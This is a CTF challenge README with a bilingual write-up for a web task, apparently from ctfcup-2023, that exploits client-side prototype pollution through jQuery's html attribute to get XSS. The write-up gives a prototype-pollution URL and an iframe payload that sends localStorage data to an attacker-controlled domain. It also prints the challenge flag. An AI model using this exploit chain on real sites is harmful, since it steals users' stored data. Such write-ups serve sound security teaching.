 # web | Grek Ilya

## Information

Ваша миссия — вживиться в роль агента разведки, чтобы раскрыть тайны современных арбалетов, разрабатываемых в Сибири. Последние разведывательные данные свидетельствуют о том, что таинственный греческий индивидуум, известный как Илья, активно участвует в разработке и совершенствовании этого уникального вида стрелкового оружия.


Your mission is to infiltrate as a reconnaissance agent to uncover the secrets of the modern crossbows being developed in Siberia. Recent intelligence suggests that a mysterious Greek individual, known as Ilya, is actively involved in the development and enhancement of this unique type of projectile weapon.
https://grekilya-6f8a51d3c9422895e2a32d7eaa431a91.ctfcup-2023.ru/
https://grekilya-6f8a51d3c9422895e2a32d7eaa431a91.ctfcup-2023.ru/report.html

## Deploy

```bash
cd deploy
docker compose up --build -d
```

## Public

## TLDR

Client-Side proto pollution with jquery chain

## Writeup (ru)

Для решения достаточно заметить:
1. В  функции parseQueryString на фронтенде присутсвует prototype pollution
```
            if (i === keys.length - 1) {
                current[k] = decodeURIComponent(value || '');
            } else {
                current[k] = current[k] || (isFinite(keys[i + 1]) ? [] : {});
                current = current[k];
            }
```
2. Использовать можно перейдя по ссылку вида url-to-task.com/?slonser\[\_\_proto\_\_\][slon]=amogus, заметите что прототип изменился и в нем появилось slon
3. Анализируя код дальше можно так же отметить что для вставки контента используется JQuery
```
        const listItem = $('<li>', {
            class: 'list-group-item',
            text: (savedCode.name || `Code ${index + 1}`)
        });
```
Такой конструктор имеет параметр `html`, который является более приорететным нежеле текст
4. Перейдете на `url-to-task.com/?slonser\[\_\_proto\_\_\][html]=<h1>slon<h1>` - увидите что отрендериться slon в uppercase
5. Вставляем нагрузку которая берет флаг и отправляет на контролируемый домен, например
```
<iframe/srcdoc="document.location='yourgook.com?e='+localStorage.get('savedCodes')">
```
## Writeup (en)

1. There is prototype pollution in the parseQueryString function on the frontend
```
            if (i === keys.length - 1) {
                current[k] = decodeURIComponent(value || '');
            } else {
                current[k] = current[k] || (isFinite(keys[i + 1]) ? [] : {});
                current = current[k];
            }
```
2. You can use it by following a link like url-to-task.com/?slonser\[\_\_proto\_\_\][slon]=amogus, you will notice that the prototype has changed and slon has appeared in it
3. You can also note that JQuery is used to insert content
```
        const listItem = $('<li>', {
            class: 'list-group-item',
            text: (savedCode.name || `Code ${index + 1}`)
        });
```
This constructor has a parameter `html`, which takes precedence over text
4. Go to `url-to-task.com/?slonser\[\_\_proto\_\_\][html]=<h1>slon<h1>` - you will see that slon will be rendered in uppercase5. We insert a load that takes the flag and sends it to the controlled domain, for example
```
<iframe/srcdoc="document.location='yourgook.com?e='+localStorage.get('savedCodes')">
```

## Flag

`ctfcup{7be3ddf98dbaca3cb516458cbf55356980d5c096}`
